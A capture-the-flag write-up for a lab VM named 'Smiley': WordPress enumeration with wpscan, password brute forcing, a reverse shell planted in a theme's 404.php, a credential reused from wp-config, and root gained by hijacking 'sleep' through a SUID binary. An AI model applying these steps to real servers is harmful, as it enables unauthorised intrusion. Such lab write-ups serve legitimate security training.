








# Smiley


__MACHINE IP__: 10.1.1.42

__DATE__: 16/05/2019

__START TIME__: 11:30

----

`NMAP`
-----



Let's run `dirsearch` on the website running on port `80`.

`dirsearch`
--------



Looking at the results of dirsearch we can see that the website is running wordpress. So let's enumerate with `wpscan`

```bash
➜ wpscan --url http://10.1.1.42/ --enumerate u
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 3.4.5
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]N
[+] URL: http://10.1.1.42/
[+] Started: Thu May 16 23:52:18 2019

Interesting Finding(s):

[+] http://10.1.1.42/
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] http://10.1.1.42/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] http://10.1.1.42/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.1.1.42/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] http://10.1.1.42/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.9.9 identified (Insecure, released on 2018-12-13).
 | Detected By: Rss Generator (Passive Detection)
 |  - http://10.1.1.42/index.php/feed/, <generator>https://wordpress.org/?v=4.9.9</generator>
 |  - http://10.1.1.42/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.9.9</generator>
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: WordPress 3.9-5.1 - Comment Cross-Site Scripting (XSS)
 |     Fixed in: 4.9.10
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/9230
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9787
 |      - https://github.com/WordPress/WordPress/commit/0292de60ec78c5a44956765189403654fe4d080b
 |      - https://wordpress.org/news/2019/03/wordpress-5-1-1-security-and-maintenance-release/
 |      - https://blog.ripstech.com/2019/wordpress-csrf-to-rce/

[+] WordPress theme in use: twentysixteen
 | Location: http://10.1.1.42/wp-content/themes/twentysixteen/
 | Last Updated: 2019-02-21T00:00:00.000Z
 | Readme: http://10.1.1.42/wp-content/themes/twentysixteen/readme.txt
 | [!] The version is out of date, the latest version is 1.9
 | Style URL: http://10.1.1.42/wp-content/themes/twentysixteen/style.css?ver=4.9.9
 | Style Name: Twenty Sixteen
 | Style URI: https://wordpress.org/themes/twentysixteen/
 | Description: Twenty Sixteen is a modernized take on an ever-popular WordPress layout — the horizontal masthead ...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Detected By: Css Style (Passive Detection)
 |
 | Version: 1.4 (80% confidence)
 | Detected By: Style (Passive Detection)
 |  - http://10.1.1.42/wp-content/themes/twentysixteen/style.css?ver=4.9.9, Match: 'Version: 1.4'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:01:01 <=================================================================================================================> (10 / 10) 100.00% Time: 00:01:01

[i] User(s) Identified:

[+] smiley
 | Detected By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Finished: Thu May 16 23:53:29 2019
[+] Requests Done: 50
[+] Cached Requests: 4
[+] Data Sent: 9.467 KB
[+] Data Received: 218.024 KB
[+] Memory used: 1.531 MB
[+] Elapsed time: 00:01:11
```


- Brute force the password - `➜ wpscan --url http://10.1.1.42/ -P /home/mzfr/CTFs/lists/passwords.txt -U smiley`






- upload reverse shell - 10.1.1.42/wp-content/themes/twentysixteen/404.php
- python -c 'import pty; pty.spawn("/bin/sh")'
- Since nothing was available  I thought let's look at the WP config
- config to password - Il0veW0rdpress
- su mike Il0veW0rdpress




- Go to home, get user.txt


- find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;





- make a new `sleep`
  `echo $'#!/bin/sh\n/bin/sh' > sleep`



- now run `./listwww` and we got it


